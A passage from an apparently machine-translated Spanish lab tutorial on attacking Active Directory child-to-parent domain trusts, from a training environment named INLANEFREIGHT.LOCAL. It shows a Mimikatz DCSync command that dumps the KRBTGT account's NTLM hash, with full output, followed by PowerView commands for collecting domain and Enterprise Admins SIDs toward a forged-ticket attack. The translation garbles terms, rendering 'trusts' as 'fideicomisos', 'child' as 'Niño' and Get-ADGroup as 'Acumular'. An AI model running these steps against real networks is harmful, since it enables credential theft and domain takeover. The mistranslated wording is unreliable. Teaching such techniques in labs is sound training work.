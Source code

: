 Dado que hemos comprometido el dominio infantil, podemos iniciar sesión como administrador de dominio o similar y realizar el ataque DCSYNC para obtener el hash NT para la cuenta KRBTGT.

#### Obtener el hash NT de la cuenta KRBTGT usando Mimikatz

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - Desde Windows

```powershell-session
PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
[DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'LOGISTICS\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/1/2021 11:21:33 AM
Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9d765b482771505cbe97411065964d5f
    ntlm- 0: 9d765b482771505cbe97411065964d5f
    lm  - 0: 69df324191d4a80f0ed100c10f20561e
```

Podemos usar el PowerView`Get-DomainSID`Funciona para obtener el SID para el dominio infantil, pero esto también es visible en la salida de Mimikatz anterior.

#### Usar Get Domainsid

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - Desde Windows

```powershell-session
PS C:\htb> Get-DomainSID

S-1-5-21-2806153819-209893948-922872689
```

A continuación, podemos usar`Get-DomainGroup`de PowerView para obtener el SID para el grupo de administradores empresariales en el dominio principal. También podríamos hacer esto con el[Acumular](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps)cmdlet con un comando como`Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"`.

#### Obtener el SID del grupo de administradores empresariales utilizando get-domaingroup
